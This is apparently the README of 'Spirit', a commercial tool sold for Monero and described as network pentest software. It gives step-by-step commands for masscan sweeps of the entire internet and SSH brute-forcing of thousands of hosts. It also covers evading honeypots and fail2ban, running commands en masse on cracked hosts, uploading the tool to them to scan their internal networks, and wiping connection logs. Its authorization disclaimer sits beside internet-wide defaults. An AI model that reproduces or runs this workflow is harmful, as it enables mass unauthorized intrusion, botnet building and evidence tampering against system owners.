 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Quick Start (IRC: #pentest on Undernet)
```bash
# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz

# give execution rights to the go.sh script
chmod +x go.sh
# start the show! <class-A> <port1,port2,port3> <speed> 
./go.sh 172 $(./spirit ports) 50000
```

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit omni` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
# omni will automatically attempt to connect to hosts present in the found.lst file,
# run commands on them and display the output to you.
$ ./spirit omni -c 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit omni -u ./spirit -c '/dev/shm/spirit scan --lan'
```

> Tip: you can automate these steps with `./spirit auto-brute` for continuous automatic probing on random ports & bruting. ![forever](asset/forever.png)

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 10 minutes on `public IPs`

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
+--------------+-------------------+------------------+
| SPIRIT BASIC |    SPIRIT PRO     |   SPIRIT ULTRA   |
+--------------+-------------------+------------------+
| brute        | brute-key         | exploit          |
| banner       | omni-ssh          | proxy-banner     |
| parse        | masscan           | encrypt          |
| ports        | passwd            |                  |
| zap          | abuse             |                  |
| scan         | bot               |                  |
| auto-brute   |                   |                  |
+--------------+-------------------+------------------+
|  3 SERVERS   | 6 SERVERS + BASIC | 12 SERVERS + PRO |
+--------------+-------------------+------------------+
Use the arrow keys to navigate: ↓ ↑ → ←
? Select your Spirit version::
  ▸ Basic $100
    Pro $150
    Ultra $300
    Referral code
```

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time nor giving away all your passwords
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking unreachable hosts to increase accuracy
- very light on server load, your CPU will thank you!
- `./spirit omni -c 'uptime'` connect to all your found hosts at once, upload files and execute remote commands
- `./spirit zap` clean connection logs 
- `./spirit masscan --zone zone.lst --rate 10_000` masscan whole zones automatically 
- `./spirit auto-brute` scan & brute your network on random ports over and over -- spot vulnerabilities before they happen
- `./spirit exploit` test targets for common local and remote exploits
- and more... [`$ ./spirit --help`](./HELP) 

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that.
> We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.

